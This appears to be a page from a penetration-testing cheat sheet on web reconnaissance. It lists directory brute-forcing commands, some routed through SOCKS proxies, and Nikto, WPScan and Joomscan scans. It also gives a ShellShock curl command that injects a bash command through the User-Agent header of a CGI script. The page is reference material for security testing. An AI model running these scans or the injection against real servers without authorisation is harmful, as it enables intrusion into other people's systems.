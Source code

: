 Enumerate directories and files on the web server.

```bash
# Using gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP address/URL> -t 250 -s 302,307,200,204,301,403 -x sh,pl,txt,php,asp,jsp,aspx,py,do,html

# Using custom Go script
go run main.go -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP address/URL> -t 100 -s 302,307,200,204,301,403 -x sh,pl,txt,php,asp,jsp,aspx,py,do,html

# Using SOCKS5 proxy
go run main.go -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP address/URL> -p socks5://127.0.0.1:9050 -t 100 -s 302,307,200,204,301,403 -x sh,pl,txt,php,asp,jsp,aspx,py,do,html

# Using dirb with SOCKS4 proxy
dirb <IP address/URL> -p socks4://127.0.0.1:9050
```

**Dirbuster GUI**: Launch Dirbuster, set the target URL, wordlist, and extensions, then start the scan.

## ShellShock Exploitation

Target CGI scripts vulnerable to ShellShock.

### Check for CGI scripts:
- `cgi-bin/user.sh`
- `cgi-bin/test.cgi`

### Test for ShellShock:
```bash
# Attempt to exploit ShellShock via User-Agent header
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://<IP address>/cgi-bin/user.sh
```

## Vulnerability Scanning

Scan for web server vulnerabilities.

```bash
# Basic Nikto scan
nikto -h <IP address>

# WordPress scanning
wpscan --url <WordPress URL> -e u,ap
wpscan --url <WordPress URL> -e u,ap,at,cb,dbe

# Joomla scanning
joomscan -u <Joomla URL> -ec
```
